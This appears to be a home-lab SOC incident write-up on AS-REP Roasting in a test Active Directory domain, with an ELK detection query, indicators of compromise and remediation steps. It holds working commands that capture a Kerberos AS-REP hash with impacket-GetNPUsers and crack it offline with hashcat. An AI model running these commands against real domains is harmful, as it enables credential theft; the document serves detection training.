



# INC-002 — AS-REP Roasting

| Field | Value |
|-------|-------|
| **Date** | 2026-08-12 |
| **Tactic** | Credential Access |
| **Technique** | T1558.004 — AS-REP Roasting |
| **Tools** | Impacket `GetNPUsers.py`, Hashcat `-m 18200` |
| **Attacker** | Kali Linux — `172.16.0.11` (`SOC-Lab-Attacker`) |
| **Target** | Active Directory — `SOC.LAB` / DC `172.16.0.5` |
| **Outcome** | Hash captured and cracked. Detection confirmed in ELK. |

---

## What Is AS-REP Roasting?

AS-REP Roasting targets Active Directory accounts that have **Kerberos pre-authentication disabled** (`DoesNotRequirePreAuth = true`). Normally, a client must prove its identity before the KDC issues a Ticket Granting Ticket (TGT). When pre-auth is disabled, the KDC returns an AS-REP response encrypted with the user's password hash — **without requiring any authentication**. An attacker can request this for any vulnerable account and crack the hash offline.

**Attack chain:**
```
Kali (attacker)
  └─ GetNPUsers.py → DC (172.16.0.5)
       └─ AS-REP returned (no auth required)
            └─ $krb5asrep$23$ hash captured
                 └─ Hashcat -m 18200 → password cracked offline
```

---

## Prerequisites

| Requirement | Detail | Status |
|-------------|--------|--------|
| Vulnerable AD user | `svc_asrep` — `DoesNotRequirePreAuth = true` | ✅ |
| Kerberos audit policy | `Success and Failure` on DC | ✅ |
| Winlogbeat Security channel | Shipping Event ID 4768 to ELK | ✅ |
| Clock skew < 5 min | Chrony on Kali synced to DC | ✅ |

---

## Attack Execution

### Step 1 — Enumerate and Capture AS-REP Hash

Run from Kali (`172.16.0.11`):

```bash
echo "svc_asrep" > /home/kali/users.txt
impacket-GetNPUsers SOC.LAB/ -usersfile /home/kali/users.txt -no-pass \
  -dc-ip 172.16.0.5 -outputfile /home/kali/asrep_hashes.txt -format hashcat
```

**Result:** Hash captured for `svc_asrep@SOC.LAB`.



---

### Step 2 — Crack the Hash Offline

```bash
hashcat -m 18200 /home/kali/asrep_hashes.txt /home/kali/custom.txt --force
```

**Result:** `Status: Cracked` — password recovered in 3 seconds.


> Hash mode 18200 = Kerberos 5, etype 23, AS-REP. The RC4 (etype 0x17) encryption is weak by design — legacy compatibility.

---

## Detection

### ELK Query

```
event.code: "4768" AND winlog.event_data.TicketEncryptionType: "0x17"
```

**Result:** 2 documents — both attack runs captured.



### Expanded Event Fields



| ELK Field | Value | Significance |
|-----------|-------|--------------|
| `event.code` | `4768` | Kerberos TGT request |
| `winlog.event_data.TicketEncryptionType` | `0x17` | RC4 — legacy, crackable |
| `winlog.event_data.PreAuthType` | `0` | Pre-auth disabled — AS-REP roastable |
| `winlog.event_data.TargetUserName` | `svc_asrep` | Targeted account |
| `winlog.event_data.IpAddress` | `::ffff:172.16.0.11` | Kali attacker IP |
| `host.name` | `soc-lab-dc` | Domain Controller |
| `@timestamp` | `Aug 12, 2026 @ 08:23:43` | Time of attack |

### Sigma Rule

See [`detection/sigma/T1558.004-asrep-roasting.yml`](../../detection/sigma/T1558.004-asrep-roasting.yml)

---

## Indicators of Compromise

| Type | Value |
|------|-------|
| Account | `svc_asrep@SOC.LAB` |
| Attacker IP | `172.16.0.11` |
| Hash prefix | `$krb5asrep$23$` |
| Encryption type | `0x17` (RC4) |
| Pre-auth type | `0` (disabled) |
| Event ID | `4768` |

---

## Remediation

| Control | Action |
|---------|--------|
| **Enforce Pre-Auth** | Audit all accounts: `Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true}` — enable pre-auth on all |
| **Disable RC4** | GPO → `Network security: Configure encryption types allowed for Kerberos` → uncheck RC4 |
| **Use gMSA** | Replace service accounts with Group Managed Service Accounts — passwords auto-rotated, 120+ char |
| **Alert on 4768 + 0x17** | Sigma rule deployed — alert on any TGT request using RC4 encryption |
| **Privileged account audit** | Any service account with sensitive access must have pre-auth enforced — no exceptions |

---

## References

- [MITRE ATT&CK T1558.004](https://attack.mitre.org/techniques/T1558/004/)
- [Harmj0y — Roasting AS-REPs](http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)
- [Impacket GetNPUsers](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)
